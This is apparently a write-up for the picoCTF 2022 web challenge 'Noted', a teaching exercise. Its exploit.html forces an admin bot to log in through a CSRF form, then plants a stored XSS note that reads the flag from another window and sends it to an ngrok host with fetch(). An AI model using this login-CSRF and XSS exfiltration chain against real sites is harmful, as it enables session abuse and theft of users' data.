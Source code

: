```yaml
---
name: Noted (2022)
event: Pico CTF 2022
category: Web
description: Writeup for Noted (Web) - Pico CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Noted

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/OUizLCfp9Dw/0.jpg)](https://youtu.be/OUizLCfp9Dw?t=669 "Pico CTF 2022: Noted")

## Description

> Web Challenge I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?

## Solution

#### exploit.html

{% code overflow="wrap" %}
```html
<body>
    <p>flag plz</p>
    <form action="http://0.0.0.0:8080/login" method="POST" id="loginForm">
        <input type="text" name="username" value="admin" />
        <input type="password" name="password" value="admin" />
        <input type="submit" value="Submit" />
    </form>
    <script>
        // Open notes in new window (containing the flag)
        window.open("http://0.0.0.0:8080/notes", "flagWindow");
        // Force admin to login to our account
        loginForm.submit();
        // When the admin arrives to our account, our XSS note will steal the flag:
        /* <script>let flagWindow = window.open('', 'flagWindow'); let flag = flagWindow.document.documentElement.innerText; fetch('http://3297-81-103-153-174.ngrok.io?flag=' + flag);<//script> */
    </script>
</body>
```
{% endcode %}
